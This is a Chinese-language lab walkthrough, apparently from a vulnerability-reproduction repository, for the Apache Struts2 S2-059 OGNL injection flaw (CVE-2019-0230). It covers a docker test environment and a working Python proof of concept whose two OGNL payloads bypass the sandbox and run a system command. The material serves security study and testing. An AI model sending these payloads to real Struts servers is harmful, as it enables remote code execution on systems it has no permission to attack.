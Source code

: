 # Struts2 S2-059 远程代码执行漏洞(CVE-2019-0230)

Apache Struts框架, 会对某些特定的标签的属性值，比如id属性进行二次解析，所以攻击者可以传递将在呈现标签属性时再次解析的OGNL表达式，造成OGNL表达式注入。从而可能造成远程执行代码。

影响版本: Struts 2.0.0 - Struts 2.5.20

参考链接：

- https://cwiki.apache.org/confluence/display/WW/S2-059
- https://securitylab.github.com/research/ognl-apache-struts-exploit-CVE-2018-11776

## 漏洞环境

启动 Struts 2.5.16环境:

```
docker compose up -d
```

启动环境之后访问`http://your-ip:8080/?id=1` 就可以看到测试界面

## 漏洞复现

访问 `http://your-ip:8080/?id=%25%7B233*233%7D`，可以发现233*233的结果被解析到了id属性中：

![1.png](1.png)

《[OGNL Apache Struts exploit: Weaponizing a sandbox bypass (CVE-2018-11776)](https://securitylab.github.com/research/ognl-apache-struts-exploit-CVE-2018-11776)》给出了绕过struts2.5.16版本的沙盒的poc，利用这个poc可以达到执行系统命令。

通过如下Python脚本复现漏洞：

```python
import requests

url = "http://127.0.0.1:8080"
data1 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))}"
}
data2 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('touch /tmp/success'))}"
}
res1 = requests.post(url, data=data1)
# print(res1.text)
res2 = requests.post(url, data=data2)
# print(res2.text)
```

执行poc之后，进入容器发现`touch /tmp/success`已成功执行。

![2.png](2.png)
